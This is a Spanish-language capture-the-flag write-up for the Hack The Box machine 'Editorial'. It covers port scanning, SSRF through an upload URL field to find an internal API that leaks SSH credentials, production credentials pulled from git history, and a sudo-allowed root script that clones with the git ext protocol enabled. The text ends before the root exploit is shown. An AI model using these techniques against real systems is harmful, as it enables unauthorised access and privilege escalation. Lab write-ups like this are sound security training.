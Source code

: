 ```yaml
---
title: Editorial - Hack The Box
date: 2024-10-04
categories:
    - Writeups
    - HTB
tags:
    - Linux
    - HTB
    - CTF
    - Easy
    - Seasonal
media_subpath: /assets/img/commons/editorial/
image: editorial.png
---
```


## Escaneo

```bash
nmap -p- --open -sS -min-rate 5000 -vvv -n -Pn -oG allPorts 10.10.11.20
```

Puertos abiertos: 22 y 80

## Análisis

```bash
nmap -sCV -p22,80 -oN targeted 10.10.11.20

`22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
```

El puerto 80 da acceso a la web de http://editorial.htb

En la web no hay nada destacable a excepción del apartado "Publish with us" que lleva a http://editorial.htb/upload.

En upload, permite proveer libros a la web de dos formas: subiendo el fichero o a través de la url.

Al subir un fichero o facilitar una URL, devuelve la URL del fichero subido:

```HTTP
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Wed, 02 Oct 2024 14:52:31 GMT
Content-Type: text/html; charset=utf-8
Connection: close
Content-Length: 51`

static/uploads/61089ce8-87f6-4a5f-83e6-1e21a65c3335`
```
## Explotación

Pasándole como URL la localhost y atacando los 65532 puertos se puede evaluar, viendo el tamaño del "`Content-Length`" si hay una respuesta distinta, lo que puede implicar que el puerto esté abierto y respondiendo solo a consultas internas.
A excepción del puerto 5000 con 51, todos los puertos restantes devuelven lenght 61.

Al hacer GET de la URL devuelta por el puerto 5000 se obtiene un json de parámetros de una API:

```json
{"messages":[{"promotions":{"description":"Retrieve a list of all the promotions in our library.","endpoint":"/api/latest/metadata/messages/promos","methods":"GET"}},{"coupons":{"description":"Retrieve the list of coupons to use in our library.","endpoint":"/api/latest/metadata/messages/coupons","methods":"GET"}},{"new_authors":{"description":"Retrieve the welcome message sended to our new authors.","endpoint":"/api/latest/metadata/messages/authors","methods":"GET"}},{"platform_use":{"description":"Retrieve examples of how to use the platform.","endpoint":"/api/latest/metadata/messages/how_to_use_platform","methods":"GET"}}],"version":[{"changelog":{"description":"Retrieve a list of all the versions and updates of the api.","endpoint":"/api/latest/metadata/changelog","methods":"GET"}},{"latest":{"description":"Retrieve the last version of api.","endpoint":"/api/latest/metadata","methods":"GET"}}]}`
```

Una consulta POST contra "/api/latest/metadata/messages/authors" devuelve una URL que al hacerle GET devuelve un JSON con credenciales:

```json
{"template_mail_message":"Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: dev080217_devAPI!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, Editorial Tiempo Arriba Team."}`
```
Username: dev 
Password: dev080217_devAPI!@

El usuario tiene acceso por SSH y al conectarse se obtiene la User Flag.

## Escalada

find / -perm -4000 -user root 2>/dev/null

```bash
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/libexec/polkit-agent-helper-1
/usr/bin/chsh
/usr/bin/fusermount3
/usr/bin/sudo
/usr/bin/umount
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/su
```

Nada destacable.

En la carpeta home existe la carpeta `.git`
Con `git log` se ve un commit con la información:

```git
commit b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 20:55:08 2023 -0500

    change(api): downgrading prod to dev
    
    * To use development environment.`
```

Consultando los cambios de este commit con `git show b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae` se extrae un usuario y contraseña de producción:
```bash
WARNING: terminal is not fully functional
Press RETURN to continue 
commit b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 20:55:08 2023 -0500

    change(api): downgrading prod to dev
    
    * To use development environment.

diff --git a/app_api/app.py b/app_api/app.py
index 61b786f..3373b14 100644
--- a/app_api/app.py
+++ b/app_api/app.py
@@ -64,7 +64,7 @@ def index():
 @app.route(api_route + '/authors/message', methods=['GET'])
 def api_mail_new_authors():
     return jsonify({
-        'template_mail_message': "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: prod\nPassword: 080217_Producti0n_2023!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest  regards, " + api_editorial_name + " Team."
+        'template_mail_message': "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: dev080217_devAPI!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, " + api_editorial_name + " Team."
     }) # TODO: replace dev credentials when checks pass
 
# -------------------------------
```
Username: prod
Password: 080217_Producti0n_2023!@

Accediendo a este usuario por SSH se observa que no tiene credenciales de root:
```bash
ssh prod@10.10.11.20
prod@editorial:~$ sudo su
Sorry, user prod is not allowed to execute '/usr/bin/su' as root on editorial.
```
Pero sí tiene permiso para ejecutar una aplicación en python3 con credenciales de root:
```bash
prod@editorial:~$ sudo -l
[sudo] password for prod: 
Matching Defaults entries for prod on editorial:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User prod may run the following commands on editorial:
    (root) /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py *
```

```bash
prod@editorial:~$ cat /opt/internal_apps/clone_changes/clone_prod_change.py 
```

```python
#!/usr/bin/python3

import os
import sys
from git import Repo

os.chdir('/opt/internal_apps/clone_changes')

url_to_clone = sys.argv[1]

r = Repo.init('', bare=True)
r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
```
